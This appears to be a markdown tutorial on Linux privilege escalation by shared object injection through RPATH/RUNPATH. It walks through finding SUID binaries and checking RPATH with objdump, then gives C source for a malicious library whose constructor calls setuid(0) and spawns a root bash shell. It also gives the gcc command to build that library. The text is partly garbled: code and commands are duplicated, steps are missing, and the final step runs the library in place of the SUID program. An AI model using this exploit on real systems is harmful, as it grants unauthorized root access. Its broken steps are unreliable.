



Shared Object Injection (RPATH, RUNPATH)
Executable compiled with RPATH or RUNPATH, that load a Shared Object
CVE-2017-16997: https://www.cvedetails.com/cve/CVE-2017-16997/
VERY UNCOMMON VULNERABILITY
NOT TESTED
• When a program is executed, it will try to load the shared objects it requires.
• By using a program called ldd or strace, we can determine the shared object libraries that are being loaded by an executable.
• Determine if the application was compiled with RPATH or RUNPATH options.
If yes, can we write into the locations specified by the either of those options?
0. Linux Smart Enumeration(lse.sh)
target@debian:~$ ./lse.sh -i | more

1. manually locate files with the SUID or SGID bits set:
target@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

Check for executable that should execute with SUID permissions
2. Run
ldd on the SUID filetarget@debian:~$ ldd <executable>

3. Check if the executable was compiled with RPATH or RUNPATH options.
If yes, we will be able to drop our payload in the directories defined by either of those options
target@debian:~$ objdump -x <executable> | grep RPATH
target@debian:~$ objdump -x <executable> | grep RUNPATH
target@debian:~$ objdump -x <executable> | grep RUNPATH

6. Create the /tmp/program directory. If it not exist already:
target@debian:~$ mkdir /tmp/program/main
7. Choose one of the shared library loaded by the executable and create your own shared library.
For example in this case create the file libContext.c with the following contents:
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}
10. Compile libContext.c into /tmp/program/main/libContext.so:
target@debian:~$ gcc -shared -fPIC -o /tmp/program/main/libContext.so libContext.c
11. Run the SUID executable to get a root shell:
target@debian:~$ /tmp/program/main/libContext.so

When a Linux application is executed, if it uses Shared Objects, is that it will search for those Shared Objects in the following search order:
1. Any directories specified by -rpath-link options. ( RPATH )
2. Any directories specified by -rpath options. ( RPATH )
3. If the -rpath and -rpath-link options are not used, it will then search the contents of the environment variables LD_RUN_PATH and LD_LIBRARY_PATH.
4. Directories defined in the DT_RUNPATH environment variable first, if that doesn’t exist, then the DT_RPATH
5. Then, the default lib directories, normally /lib and /usr/lib .
6. Finally, any directories defined in the /etc/ld.so.conf file.
Bibliography:
• https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library
• https://ftp.gnu.org/old-gnu/Manuals/ld-2.9.1/html_node/ld_3.html